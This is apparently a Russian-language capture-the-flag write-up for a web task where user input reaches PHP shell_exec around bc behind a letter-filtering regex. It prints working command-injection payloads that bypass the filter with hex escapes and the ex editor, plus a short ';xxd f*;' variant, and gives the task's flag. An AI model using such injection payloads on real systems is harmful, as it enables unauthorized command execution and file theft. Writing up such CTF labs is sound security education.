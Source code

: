 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/)

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
'&&ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
В нормальном виде выглядит так
```
'&&ex +%p -scq! -c *;'
```
`ex` - это текстовый редактор linux в котором можно выполнять команды bash как в vim

Я говорю ему прочитать все, что есть в первом попавшемся файле в директории и перенаправляю вывод на командную строку

Сделать так, что бы читались сразу все файлы в один вывод, пока не получилось

Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}
